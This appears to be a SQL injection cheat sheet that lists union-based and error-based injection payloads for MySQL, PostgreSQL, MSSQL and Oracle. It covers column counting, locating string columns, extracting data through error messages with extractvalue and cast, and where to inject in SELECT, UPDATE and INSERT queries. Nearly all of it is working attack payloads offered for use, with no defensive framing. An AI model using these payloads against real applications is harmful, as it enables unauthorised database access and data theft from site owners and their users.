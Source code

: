 ### SQLI union-based
- Get column number:
```SQL
ORDER BY <N>

UNION SELECT NULL,NULL -- MySQL/PostgreSQL/MSSQL
UNION SELECT NULL,NULL FROM DUAL -- Oracle
```
- Find which column can return a string:
```SQL
UNION SELECT NULL,char(97) -- MySQL/MSSQL
UNION SELECT NULL,chr(97) -- PostgreSQL
UNION SELECT NULL,chr(97) FROM DUAL -- Oracle
```
- Get some data:
```SQL
UNION SELECT NULL,(<select_payload>) -- MySQL/MSSQL/PostgreSQL
UNION SELECT NULL,(<select_payload>) FROM DUAL -- Oracle (if select payload doesn't have FROM statement)
```
- Usecases:
```SQL
SELECT column FROM table WHERE another_column = 'wrong_value' <union_select_query> -- SELECT WHERE
SELECT column FROM table GROUP BY column <union_select_query> -- SELECT GROUP BY. You may have to skip original query response in the result set.
SELECT column FROM table GROUP BY column HAVING column = 'wrong_value' <union_select_query> -- SELECT HAVING
SELECT column FROM table WHERE any_column = 'wrong_value' <union_select_query> -- SELECT TABLE NAME
```

### SQLI error-based
- Proof of concept:
```SQL
extractvalue(0x00,concat(0x3f,(concat(char(112),char(114),char(111),char(111),char(102))))) -- MySQL
cast(chr(112)||chr(114)||chr(111)||chr(111)||chr(102) AS INTEGER) -- PostgreSQL/Oracle
cast(char(112)+char(114)+char(111)+char(111)+char(102) AS INTEGER) -- MSSQL
```
- Get some data:
```SQL
extractvalue(0x00,concat(0x3f,(<select_payload>))) -- MySQL. Output is limited to 31 characters so better use substring(column_name,1,30) in select payloads.
cast((<select_payload>) AS INTEGER) -- PostgreSQL/Oracle/MSSQL
```
- Usecases:
```SQL
SELECT column FROM table WHERE another_column = 'any_value' AND <error_expression> -- SELECT WHERE
SELECT column FROM table ORDER BY <error_expression> -- SELECT ORDER BY
SELECT column FROM table GROUP BY <error_expression> -- SELECT GROUP BY
SELECT column FROM table GROUP BY column HAVING column = 'any_value' AND <error_expression> -- SELECT HAVING
SELECT column FROM table WHERE <error_expression> -- SELECT TABLE NAME

UPDATE table SET column = ''||(<error_expression>) -- UPDATE. MySQL(used as 'OR' if PIPES_AS_CONCAT=false)/PostgreSQL/Oracle
UPDATE table SET column = ''+(<error_expression>) -- UPDATE. MSSQL
UPDATE table SET column = 'FALSE' AND <error_expression> -- UPDATE
UPDATE table SET column = 'value' WHERE another_column = 'any_value' AND <error_expression> -- UPDATE WHERE

INSERT INTO table (column) VALUES (''||(<error_expression>))  -- INSERT. MySQL(used as 'OR' if PIPES_AS_CONCAT=false)/PostgreSQL/Oracle
INSERT INTO table (column) VALUES (''+(<error_expression>))  -- INSERT. MSSQL
INSERT INTO table (column) VALUES ('FALSE' AND <error_expression>) -- INSERT
```
